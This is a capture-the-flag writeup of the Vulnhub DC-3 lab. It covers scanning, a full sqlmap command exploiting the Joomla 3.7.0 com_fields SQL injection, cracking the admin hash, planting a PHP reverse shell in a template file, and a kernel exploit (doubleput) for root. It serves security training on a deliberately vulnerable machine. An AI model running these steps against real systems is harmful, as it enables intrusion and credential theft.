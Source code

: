 ```yaml
---
"title": "Vulnhub - DC 3"
"date": 2019-11-16
"tags": ["joomla", "easy", "php", "kernel_exploit", "sqli"]
"keywords": ["joomla", "easy", "php", "kernel_exploit", "sqli"]
"categories": ["Vulnhub"]
"author": "Ghostbyt3"
"description": "We are going to pwn DC 3 by DCAU7 from Vulnhub"
"featured_image": "/img/dc3/1.1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc3/1.1.png)
We are going to pwn DC 3 by DCAU7 from Vulnhub


## Description
>DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).
If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.


Download Link: [https://www.vulnhub.com/entry/dc-3,312/](https://www.vulnhub.com/entry/dc-3,312/)


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:BE:4C:95 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/25 19:06:03 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htpasswd (Status: 403)
/cache (Status: 301)
/bin (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/index.php (Status: 200)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
===============================================================
2019/11/25 19:06:05 Finished
===============================================================
```


![Untitled](/img/dc3/1.png)

It is ```JoomlaCMS``` so i tried using [droopescan](https://github.com/droope/droopescan) to find any vulnerable plugins or versions
![Untitled](/img/dc3/2.png)

## Finding the version is vulnerable

We can also use Metasploit to find Joomla's Version
![Untitled](/img/dc3/3.png)

> Joomla Version 3.7.0

I found there is an SQL INjection for this version.

>https://www.exploit-db.com/exploits/42033

### SQL Injection

``` sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] ```

![Untitled](/img/dc3/4.png)

![Untitled](/img/dc3/5.png)

It shows 5 Databases so lets enumerate the database by using the same command.[br/](br/)
![Untitled](/img/dc3/6.png)

>-D = To denote which database

![Untitled](/img/dc3/7.png)

It looks like ``#_users`` is interesting

![Untitled](/img/dc3/8.png)

```

-T = Used to denote which table
-C = What are the things we need from the table
--dump = To display all

```
![Untitled](/img/dc3/9.png)

We got a hash for admin so lets try it with john 

![Untitled](/img/dc3/10.png)

It Shows the password is ``snoopy``

Lets Try login 

![Untitled](/img/dc3/11.png)

## Getting Shell 

We need to get reverse shell since there is no other ports running we need to get reverse shell from the webpage

![Untitled](/img/dc3/12.png)

Templates -> Templates -> Beez3 Details and Files -> Index.php
I added my PHP Reverse Shell.

Once added I clicked on Template Preview…
and I got the shell
![Untitled](/img/dc3/13.png)

## Privilege Escalation

It looks like Kernel is outdated[br/](br/)
![Untitled](/img/dc3/14.png)

Found there is an exploit from searchsploit

![Untitled](/img/dc3/15.png)


> https://www.exploit-db.com/exploits/39772

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip 


I uploaded the code into the machine and did according to the instruction.

![Untitled](/img/dc3/16.png)

First ``./compile.sh``
And ``./doubleput``

![Untitled](/img/dc3/17.png)
![Untitled](/img/dc3/18.png)

``Flag``

![Untitled](/img/dc3/19.png)

Got ROOT!!









